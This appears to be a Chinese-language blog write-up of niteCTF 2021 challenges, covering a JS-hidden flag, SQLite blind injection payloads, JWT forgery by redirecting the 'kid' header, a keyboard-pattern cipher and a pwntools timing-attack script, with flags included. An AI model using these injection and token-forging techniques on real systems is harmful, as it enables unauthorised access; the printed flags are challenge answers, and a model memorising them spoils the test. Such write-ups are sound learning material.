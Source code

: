 ```yaml
---
title: "niteCTF2021 Wp"
slug: "nitectf2021-wp"
description: "如果你看到这行字，说明其中有一个脚本还没有完善好，咕咕"
date: 2021-12-12T23:12:52+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


http://ctf.cryptonite.team/challenges

https://ctftime.org/event/1449

## Web/welcome to niteCTF

> **welcome** **baby**
>
> Go to the [https://capturetheflag.cryptonite.team](https://capturetheflag.cryptonite.team/) and copy the flag, it's that simple!

![image-20211212205533558](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212205533558.png)

f12给整了个b64，解码之后是Cryptonite，很遗憾它并不是flag

抓包后看到有jsfuck

![image-20211212205758869](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212205758869.png)

'Organized by Cryptonite Manipal'

也不是flag，就很鸡贼，在另一个js文件中

![image-20211212210259142](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212210259142.png)

![image-20211212210245571](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212210245571.png)

## Web/BATCHEST

> My friend just opened a new zoo, so I made him a site to check if his zoo has those animals. https://blindsqli-web.chall.cryptonite.team/
>
> Author: SPEED

把盲注的提示写到url中了

![image-20211212213444605](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212213444605.png)

它的回显只有有和没有两种，所以需要char-by-char类型的盲注

不过这里要注意`lion'or '1' #`返回了500，而`lion'or '1' -- `返回正常，说明这里的数据库是sqlite，用的是`sqlite_master`来获取信息

```
# 脚本我之后完善一下
# 之前写了一个通用的char-by-char-sqli的模板
# 但是发现耦合性太高了
# 还是按功能分开函数写比较好
# 待完善中XD
# 然后看到了一个截图
# 对哦 他妈的为什么盲注这种东西不直接用burp-intruder呢？？？？？？？
# ？？？？
# 突然发现了一个华点
# 还写个p的脚本 用burp
# 开玩笑的 各有各的应用场景
```

## Web/JWT

> Jason likes cookies but he is diabetic. So his mom stored them away somewhere safe. Can you help him find the path that leads to the solution for his hungry desires?
>
> [https://jwt-web.challenge.cryptonite.team](https://jwt-web.challenge.cryptonite.team/) http://35.201.116.81/
>
> Author: LatinArceus

![image-20211212011510158](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212011510158.png)

![image-20211212011548007](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212011548007.png)

我们得伪造一个`"admin_cap":"true"`的cookie，注意到这里的`kid`指向的是服务器本地的secret.txt，那我们只需要把它指向我们自己的secret.txt就好了

![image-20211212205136265](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212205136265.png)

![image-20211212205200492](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212205200492.png)

`nite{R3diR3ct10n_c4n_b3_4_vuLn_t0O}`

## Misc/Let's be Artistic

> We have received some encoded message from an art gallery. Can you trace it back to the flag? The flag is all uppercase. Wrap it in flag format nite{}

```
87yhnmkj 5rfvbnju76 5rfvbnju76 tyjnbg tyjnbg 5rfc6ygn cft6yhn efvgyjmko 9ikm xdr5thnji9 87yhnmkj
```

键盘打字的轨迹 ~~（在键盘上撒把米 鸡跑的路线~~

`nite{GOODDRAWING}`

## Misc/Slow Passwords

> We made ourselves super secure by a random password authentication every time the connection is established. Is it really that secure?
>
> `nc slow-passwords.challenge.cryptonite.team 1337`

刚开始都没明白啥意思，看了wp知道了

每次连接服务器生成不同的passwd，允许每次1个字符输3次，但是输入不同字符的响应时间是不同的，有的长有的短，我们可以找个参照字符（比如`'a'`），通过响应时间跟`'a'`所花的时间的偏移量来判断是否正确（相当于一种变相的时间盲注了），从而计算出下一个该输入的字符

```python
from pwn import *
from time import time

p = remote("slow-passwords.challenge.cryptonite.team", 1337)
print(p.recvlines(5))
curr = p.recvline()
print('start:', curr)
count = 0
while count < 11:
    curr = 'a'
    p.sendline(b'a')
    print(p.recvline())
    start = time()
    print(p.recvline())
    end = time()
    offset = round(end - start)
    print("offset:", offset)
    next = bytes(chr(ord('a') + offset), 'utf-8')
    p.sendline(next)
    print(p.recvline())
    print(p.recvline())
    count += 1

p.close()

```

![image-20211212213101123](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212213101123.png)

很巧妙的用法！这个故事告诉我们char-by-char类型的盲注真的是在以各种各样的形式四处开花，在很多场合都能用的上

参考：[wp](https://github.com/jontay999/CTF-writeups/tree/master/niteCTF/Misc/slow_passwords)

------

最近刷题到buuoj第7页了，学校也到第15周的教学周了，这周还有四级，整个人，有点难顶的

所以！我选择当一只鸵鸟，本着：车到山前必有路，船到桥头自然直的态度迎来寒假前这段时间！

太多的flag就不立了，立心里了
